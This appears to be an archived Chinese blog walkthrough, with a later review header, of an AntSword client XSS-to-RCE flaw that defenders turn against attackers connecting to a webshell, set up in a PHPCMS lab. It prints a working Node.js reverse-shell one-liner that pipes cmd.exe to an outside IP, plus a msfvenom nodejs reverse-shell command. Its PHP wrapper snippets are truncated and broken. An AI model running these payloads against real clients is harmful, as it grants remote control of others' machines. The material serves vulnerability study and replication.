# 分享   蚁剑 RCE 反制复现

> 编号角色校订（2026-10-04）：按归档技术正文区分主讨论编号与背景引用，更新 `primary_identifiers` / `referenced_identifiers` 及旧字段角色。旧编号原值、状态与正文保持原样，变更前字段逐字保存在 `previous_*`；后文旧的角色待核说明应按当前字段阅读。这里的角色判读不等于官方分配核验或漏洞复现。

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：AntSword客户端≤2.0.7，PHPCMS为实验宿主
- 本文讨论：HTTP500错误HTML渲染至Node执行，无主CVE/CNVD证据
- 版本、权限与配置前提：用户用受影响客户端连接攻击者可控服务响应；测试Win10，关闭防护是实验条件
- 资料类型：AntSword恶意响应XSS到客户端执行实验；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- frontmatter CNVD-2021-30167来自页尾用友NC推荐，错误套给蚁剑；FOFA值也是推荐标题碎片
- PHP片段&lt;?phpheader缺分隔，不能正确按PHP开放标签解析
- 大篇拓扑/反向连接配置掩盖客户端根因，关闭杀软不能作为通用必需前提
- ≤2.0.7与文中v2.0需区分启动器/核心版本；2.0.7不能装Linux断言无来源
- 示例公网地址及实验材料应去敏，蓝队反制不是泛授权
- 已落实的文本修订：残缺指纹退出可执行索引并保留原值。上列仍描述旧文问题时，以此落实项及下列限定为准；修订不代表运行验证

### 操作风险与恢复

- 回连样例可能向外部地址发送网络请求或建立会话；应使用自己的隔离回连服务，DNS/LDAP 到达只能证明相应交互，不能单独证明 RCE

### 待核与来源

- 真实版本范围、修复及截图执行证据待核
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/thLttnT09Qr53bTKejw5BA)


**Zero**

  

**漏洞概述**

中国蚁剑是一款开源的跨平台网站管理工具，它主要面向于合法授权的渗透测试安全人员以及进行常规操作的网站管理员。  
2019 年 4 月 12 日凌晨，有用户在中国蚁剑 GitHub 上提交了 issue，称发现中国蚁剑存在 XSS 漏洞，借此可引起 RCE。据悉，该漏洞是因为在 webshell 远程连接失败时，中国蚁剑会返回错误信息，但因为使用的是 html 解析，导致 xss 漏洞。


**One**

  

**影响范围**

AntSword <=2.0.7


**Two**

  

**实验环境搭建**

### **●****环境拓扑**



### **●****安装 v2.0.7 版本蚁剑**

版本 2.0.7 的蚁剑不能安装在 Linux 系统，所以将 Windows 10 物理机当做红队使用的主机。

> 下载地址：链接：https://pan.baidu.com/s/1x8bXH-ph6wRCZcmIt_HHDw  
> 提取码：rizb

1. 将压缩包解压，解压之后。



2. 打开启动器, 选择 windows 版本，双击 AntSword.exe 启动文件。



3. 初始化, 配置核心源代码文件位置。





4. 双击 AntSword.exe 重启。



### **●****蓝队靶标 Centos 7**

Centos 7 自动获取到的 IP 地址为 10.10.19.50  
1. 在靶机上搭建 LAMP 服务和 phpcms v9.6.0 环境。



2. 边界 FW2 防火墙开放对应的接口  
访问 http://1.1.1.12/cgi-bin/luci/，输入 root/goktech 进行登录。



点击 “网络 -> 防火墙 ->端口转发 ->新增”，则可以添加新的端口转发规则。



设置新的端口转发规则。



> 名称：可以任意取名，建议与规则相关；  
> 协议：可以选择 TCP、UDP、ICMP，一个规则最好只选一个协议，不然容易出问题；  
> 源区域：这个指的是外网所在的区域，我们事先配置好了每个接口一个区域，因此只要选对应接口即可，FW2 选 ETH4，FW1 选 ETH2；  
> 外部端口：这里是外网供访问的端口号，可以填单个端口或者一个端口段，如 8000-9000；  
> 目标区域：这里填写的是前往内网服务器路由的出接口，以 FW2 为例，如果要映射服务器就填写 ETH3；  
> 内部 IP 地址：这里填写内网服务器的 IP 地址，在下拉框的最后可以输入 ip 按回车即可变为可选的 ip；  
> 内部端口：这里填写内部服务器要映射的端口，可以填单个端口或者一个端口段，如 8000-9000。

配置完成后点击右下角保存，即可增加规则，但规则不会马上生效。规则是自上而下进行匹配的，可以按住规则右侧的白色按钮上下拖动调整顺序，最后点击 “保存并应用” 方可生效。



**●****蓝队靶标 Windows Server 2016**  

Windows Server 2016 自动获取到的 IP 地址是 10.10.19.51  
1. 使用 phpstudy 搭建，启动 nginx+mysql 服务。



2. 搭建好 phpcms v9.6.0 环境。



3. 边界 FW2 防火墙开放对应的接口  
访问 http://1.1.1.12/cgi-bin/luci/，输入 root/goktech 进行登录。


点击 “网络 -> 防火墙 ->端口转发 ->新增”，则可以添加新的端口转发规则。


设置新的端口转发规则。



> 将靶标 Windows Server 2016 上的 phpcms 平台映射到公网 66.28.5.2 的 80 端口上

配置完成后点击右下角保存，即可增加规则，但规则不会马上生效。规则是自上而下进行匹配的，可以按住规则右侧的白色按钮上下拖动调整顺序，最后点击 “保存并应用” 方可生效。




**Three**

  

**反制**

### ****●**反制条件**

#### **红队：Windows 10 蓝队: Centos 7**

1. 红队通过 phpcms v9.6.0 文件上传漏洞，上传了一句话木马文件，并且使用蚁剑成功连接。





2. 蓝队 Centos 7 ：关闭防火墙。



3. 边界 FW2 防火墙开放接口  
访问 http://1.1.1.12/cgi-bin/luci/，输入 root/goktech 进行登录。


点击 “网络 -> 防火墙 ->端口转发”，则可以看到端口转发规则。



点击 “编辑”，进入修改端口转发规则。



配置完成后点击右下角保存，即可修改规则，最后点击 “保存并应用” 方可生效。

#### **红队：Windows 10 蓝队：Windows Server 2016**

1. 红队通过 phpcms v9.6.0 文件上传漏洞，上传了一句话木马文件，并且使用蚁剑成功连接。





2. 蓝队 Windows Server 2016：关闭防火墙。



3. 边界 FW2 防火墙开放接口  
访问 http://1.1.1.12/cgi-bin/luci/，输入 root/goktech 进行登录。


点击 “网络 -> 防火墙 ->端口转发”，则可以看到端口转发规则。



点击 “编辑”，进入修改端口转发规则。



配置完成后点击右下角保存，即可修改规则，最后点击 “保存并应用” 方可生效。



4. 红队 Windows 10 关闭杀毒软件，比如火绒、360 等等。



> 如果没有关闭火绒，则会报僵尸网络攻击，并将攻击进行拦截。

### ****●******反制目的**

当红队再次使用蚁剑连接时，直接反弹 shell，蓝队可以反控红队机器。

### ****●******反制开始条件**

#### **红队：Windows 10 蓝队: Centos 7**

1. 蓝队检查日志时，发现红队使用蚁剑 v2.0 连接了 20220609050516861.php。



2. 查看 20220609050516861.php，发现该文件是一句话木马文件。



### ****●******反制过程**

#### **Centos 7**

1. 蓝队就准备根据蚁剑 v2.0 漏洞进行反制红队，制作 payload，修改 20220609050516861.php 内容。  
1.1 使用 net.Socket 方法制作木马  
将以下内容进行 base64 编码, 66.28.5.2 为蓝队 centos 7 映射到公网上的 IP 地址，监听端口为 10099。

```
var net = require("net"), sh = require("child_process").exec("cmd.exe");var client = new net.Socket();client.connect(10099, "66.28.5.2", function(){client.pipe(sh.stdin);sh.stdout.pipe(client);sh.stderr.pipe(client);});
```

> 在 Node.js 中提供了一个 net.Socket 对象，用于方便调用底层 Socket 接口，实现数据传输的功能。net.Socket 既可以读也可以写，这个 client 建立 socket 链接，实现了将对方 cmd.exe 的标准输入输出与标准错误流转发到受害者自己的 ip:10099 端口上。

将上面 base64 编码完成的内容放进 Buffer 函数中。

```
<?phpheader("HTTP/1.1 500 Not ");?>
```

1.2 使用 MSF 生成 node.js 木马  
使用 msfvenom 命令生成木马

> msfvenom -p nodejs/shell_reverse_tcp LHOST=66.28.5.2 LPORT=10099 -f raw -o payload.js



将 payload.js 中的内容进行 base64 编码，将 base64 编码完成的代码放进 Buffer 函数。  



```
<?phpheader("HTTP/1.1 500 Not ");?>
```

2. 开启监听端口  
蓝队使用 nc 开启监听 10099 端口。



3. 当红队再一次使用蚁剑进行连接 webshell 时，发现报错，可能以为自己的密码错了或者木马文件没了，而此时，红队已经被蓝队控制了。





### ****●******Windows Server 2016**

1. 蓝队就准备根据蚁剑 v2.0 漏洞进行反制红队，制作 payload，修改 20220609035913593.php 内容。  
将以下内容进行 base64 编码, 66.28.5.2 为蓝队靶机映射到公网上的 IP 地址，监听端口为 10088。

```
var net = require("net"), sh = require("child_process").exec("cmd.exe");var client = new net.Socket();client.connect(10088, "66.28.5.2", function(){client.pipe(sh.stdin);sh.stdout.pipe(client);sh.stderr.pipe(client);});
```

> 在 Node.js 中提供了一个 net.Socket 对象，用于方便调用底层 Socket 接口，实现数据传输的功能。net.Socket 既可以读也可以写，这个 client 建立 socket 链接，实现了将对方 cmd.exe 的标准输入输出与标准错误流转发到受害者自己的 ip:10088 端口上。

将上面 base64 编码完成的内容放进 Buffer 函数中。

```
<?phpheader("HTTP/1.1 500 Not ");?>
```

2. 开启监听端口  
蓝队靶机使用 nc 开启监听 10088 端口。



3. 当红队再一次使用蚁剑进行连接 webshell 时，发现报错，可能以为自己的密码错了或者木马文件没了，而此时，红队已经被蓝队控制了。






**Four**

  

**参考材料**

1.https://mp.weixin.qq.com/s/IRVfXxmPJo2ynym2kl9X-Q  
2.https://github.com/AntSwordProject/antSword/issues/147  
3.https://mp.weixin.qq.com/s/nfa2DHkDPE43cIvvRmk1TA  
4.https://mp.weixin.qq.com/s/MfWuBm_H7JxAvBKfnTpLZQ

文章来源：国科漏斗社区

```
【往期推荐】

【内网渗透】内网信息收集命令汇总


【内网渗透】域内信息收集命令汇总

【超详细 | Python】CS免杀-Shellcode Loader原理(python)

【超详细 | Python】CS免杀-分离+混淆免杀思路


【超详细 | 钟馗之眼】ZoomEye-python命令行的使用


【超详细 | 附EXP】Weblogic CVE-2021-2394 RCE漏洞复现

【超详细】CVE-2020-14882 | Weblogic未授权命令执行漏洞复现

【超详细 | 附PoC】CVE-2021-2109 | Weblogic Server远程代码执行漏洞复现

【漏洞分析 | 附EXP】CVE-2021-21985 VMware vCenter Server 远程代码执行漏洞

【CNVD-2021-30167 | 附PoC】用友NC BeanShell远程代码执行漏洞复现


【奇淫巧技】如何成为一个合格的“FOFA”工程师

【超详细】Microsoft Exchange 远程代码执行漏洞复现【CVE-2020-17144】

【超详细】Fastjson1.2.24反序列化漏洞复现

  记一次HW实战笔记 | 艰难的提权爬坑

【漏洞速递+检测脚本 | CVE-2021-49104】泛微E-Office任意文件上传漏洞


免杀基础教学（上卷）


免杀基础教学（下卷）


走过路过的大佬们留个关注再走呗

往期文章有彩蛋哦


一如既往的学习，一如既往的整理，一如即往的分享


“如侵权请私聊公众号删文”

渗透Xiao白帽
积硅步以致千里，积怠惰以致深渊！
33篇原创内容
公众号

推荐阅读↓↓↓


EchoSec
萌新专注于网络安全行业学习
10篇原创内容
公众号

我知道你在看哟

```

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
